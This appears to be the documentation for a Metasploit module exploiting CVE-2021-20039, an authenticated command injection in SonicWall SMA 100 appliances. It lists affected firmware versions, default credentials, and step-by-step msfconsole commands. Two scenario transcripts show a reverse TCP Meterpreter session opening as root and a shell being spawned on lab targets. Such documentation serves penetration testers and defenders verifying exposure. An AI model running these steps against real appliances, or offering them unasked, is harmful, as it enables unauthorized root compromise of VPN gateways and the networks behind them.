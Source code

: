 ## Vulnerable Application

### Description

This module exploits an authenticated command injection vulnerability in the SonicWall
SMA 100 series web interface. Exploitation results in command execution as root. The
affected versions are:

* 10.2.1.2-24sv and below
* 10.2.0.8-37sv and below
* 9.0.0.11-31sv and below

### Installation

#### SonicWall SMA 500v 10.2.1.0-sv17 on VMWare Fusion

* Download 10.2.1.0-sv17 from: https://software.sonicwall.com/Firmware/sw_smavm_eng_10.2.1.0_10.2.1_p_17sv_1268045.ova
* From Fusion, import the downloaded ova.
* Start the VM.
* Log in to the command line interface using "admin" and "password".
* Hit "1" for "Setup Wizard".
* Configure the device with an appropriate address, gateway, and netmask (the device doesn't use DHCP).
* Done!

## Verification Steps

* Follow the above instructions to install SMA 500v
* Do: `use exploit/linux/http/sonicwall_cve_2021_20039`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a Meterpreter session.

## Options

### USERNAME

The username to authenticate to the web server with. The default value is "admin".

### PASSWORD

The password to authenticate to the web server with. The default value is "password".

### PORTALNAME

The name of the SMA portal to authenticate to. The default value is "VirtualOffice".

### SWDOMAIN

The name of the domain to authenticate to. The default is "LocalDomain".

## Scenarios

### SMA 500v 10.2.1.1-19sv. Default creds. Get Meterpreter session.

```
msf > use exploit/linux/http/sonicwall_cve_2021_20039
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/sonicwall_cve_2021_20039) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf exploit(linux/http/sonicwall_cve_2021_20039) > check

[*] Version found: 10.2.1.1-19sv
[*] 10.0.0.7:443 - The target appears to be vulnerable. Based on the discovered version.
msf exploit(linux/http/sonicwall_cve_2021_20039) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf exploit(linux/http/sonicwall_cve_2021_20039) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version found: 10.2.1.1-19sv
[+] The target appears to be vulnerable. Based on the discovered version.
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Authentication successful
[*] Command Stager progress -   1.42% done (36/2533 bytes)
- truncated -
[*] Command Stager progress -  98.07% done (2484/2533 bytes)
[*] Sending stage (984904 bytes) to 10.0.0.7
[*] Meterpreter session 2 opened (10.0.0.9:4444 -> 10.0.0.7:58293 ) at 2021-11-17 10:56:30 -0800
[*] Command Stager progress -  99.37% done (2517/2533 bytes)
[*] Command Stager progress - 100.00% done (2533/2533 bytes)

meterpreter > getuid
Server username: root
meterpreter > shell
Process 6708 created.
Channel 1 created.
uname -a
Linux sslvpn 3.13.3 #1 SMP Mon Aug 9 11:13:43 GMT 2021 i686 i686 i386 GNU/Linux
id
uid=0(root) gid=99(nobody) groups=0(root),99(nobody)
```

### SMA 500v 9.0.0.10-28sv. Non-default creds. Get Meterpreter session.

```
msf > use exploit/linux/http/sonicwall_cve_2021_20039
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/sonicwall_cve_2021_20039) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf exploit(linux/http/sonicwall_cve_2021_20039) > check

[*] Version found: 9.0.0.10-28sv
[*] 10.0.0.6:443 - The target appears to be vulnerable. Based on the discovered version.
msf exploit(linux/http/sonicwall_cve_2021_20039) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf exploit(linux/http/sonicwall_cve_2021_20039) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/sonicwall_cve_2021_20039) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version found: 9.0.0.10-28sv
[+] The target appears to be vulnerable. Based on the discovered version.
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Authentication successful
[*] Command Stager progress -   1.42% done (36/2533 bytes)
- Truncated -
[*] Command Stager progress -  98.07% done (2484/2533 bytes)
[*] Sending stage (984904 bytes) to 10.0.0.6
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.6:38833 ) at 2021-11-17 11:00:29 -0800
[*] Command Stager progress -  99.37% done (2517/2533 bytes)
[*] Command Stager progress - 100.00% done (2533/2533 bytes)

meterpreter > getuid
Server username: root
meterpreter > shell
Process 24220 created.
Channel 1 created.
uname -a
Linux sslvpn 3.1.0 #1 SMP Thu Feb 18 15:44:36 GMT 2021 i686 i686 i386 GNU/Linux
id
uid=0(root) gid=99(nobody) groups=0(root),99(nobody)
```
